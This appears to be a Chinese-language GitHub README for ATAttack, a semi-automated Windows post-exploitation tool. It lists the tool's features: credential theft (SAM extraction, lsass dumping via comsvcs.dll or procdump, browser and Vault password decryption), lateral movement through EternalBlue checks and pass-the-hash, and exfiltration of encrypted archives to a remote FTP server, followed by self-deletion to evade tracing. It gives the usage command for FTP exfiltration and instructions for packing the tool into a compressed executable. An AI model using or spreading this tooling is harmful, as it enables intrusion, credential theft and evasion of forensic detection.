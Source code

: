 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎大家踊跃提交 issue 和 PR ！

#### v1.0-开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5da3eacf32f2ca14fb78c69e)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dac6de090144e463b1d6194)

##### 使用方法

###### cmd.exe

存储于本地文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

###### 一、基础信息获取：

1、系统驱动器信息获取,系统进程识别，判断是否存在杀软av进程

2、单机所有用户以及当前用户RDP远程连接导出 

3、当前系统已安装程序列表获取 

4、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等敏感数据


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录筛选提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp，半自动化离线解密  

3、通过netsh 导出系统 wifi密码[暂时删除]、Windows Vaults 普通 / WEB 凭据提取

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie,fiefox

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 [未完成]


###### 四、横向移动

1、探测网段存活，如存活则识别windows 系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器浏览历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为file_list.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机信息，暂命名为os_version.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`

## 已知故障和错误列表



